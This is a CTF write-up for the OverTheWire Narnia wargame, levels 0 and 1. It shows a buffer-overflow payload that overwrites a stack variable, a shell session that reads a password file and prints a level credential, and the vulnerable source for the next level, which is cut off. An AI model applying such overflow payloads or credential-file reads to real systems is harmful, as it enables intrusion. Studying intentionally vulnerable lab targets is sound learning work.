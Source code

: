 ```c
```

To solve this challenge, we need to change the **val** value initialized with `0x41414141` to `0xdeadbeef`. 

Here, the issue come from the *scanf()* function. It allows the user to enter **24** chars however, the **buf** variable is only **20** bytes so, we can overwrite *4* bytes. 

Let's try to write 24 bytes as input and check if the address changes.

```bash
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

It seems that we were able to modify the original value of **val** with `0x42424242`. We will do the same thing with the right value or `0xdeadbeef`

```bash
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

Easy, right ?

## Narnia 01 Solution

**SSH :** *ssh narnia1@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *efeidiedae*

First, let's try to execute the program...

```bash
narnia1@narnia:~$ cd /narnia/
narnia1@narnia:/narnia$ ./narnia1 
Give me something to execute at the env-variable EGG
```

Hum... It seems that we need to initialize an environment variable named **EGG**.

### Source Code

Let's clarify that with the source code.

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
```